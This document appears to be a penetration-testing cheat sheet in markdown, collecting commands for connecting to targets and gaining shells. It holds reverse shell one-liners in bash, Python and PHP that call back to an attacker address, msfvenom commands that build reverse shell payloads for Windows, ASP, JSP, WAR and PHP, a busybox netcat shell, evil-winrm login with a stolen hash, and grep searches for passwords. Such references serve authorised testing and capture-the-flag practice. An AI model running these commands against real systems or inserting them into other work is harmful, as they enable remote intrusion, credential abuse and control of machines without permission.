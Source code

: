 ```bash
# sudo apt-get install virtualenv
$ virtualenv myenv # create virutal environment
$ source myenv/bin/activate # activate the virutal environment
$ deactivate # deactivate the virutal environment
```

### `base64`

```bash
$ base64 -w0 <file> ; echo
$ cat <file> | base64 -d 
```

### Connecting to Target

```bash
$ rlwrap -cAr nc -lnvp 443

$ evil-winrm -i $IP -u username -p password
$ evil-winrm -i $IP -u username -H "<hash>"

$ busybox nc $IP 1234 -e sh

$ ssh username@$IP

$ smbclient -U username \\\\$IP\\SHARENAME
```

### Reverse Shells

##### `msfvenom`

```bash
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
$ msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

##### One-Liners

```bash
$ bash -i >& /dev/tcp/$IP/4242 0>&1
$ python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
<?php echo shell_exec('bash -i >& /dev/tcp/$IP/443 0>&1');?>
```

### Text Manipulation

```bash
# search for the files that contains the phrase password in it
$ grep -ir password
$ grep -iRl "password" ./

# exclude multiple strings
$ grep -Ev 'exclude1 | exclude2' filename.txt

# obtain only lines starting with small letters
$ grep -v '[A-Z]' users.txt

# search and replace strings
$ cat username.txt | sed s/{stringToBeChanged}/{replacementString}/g
```
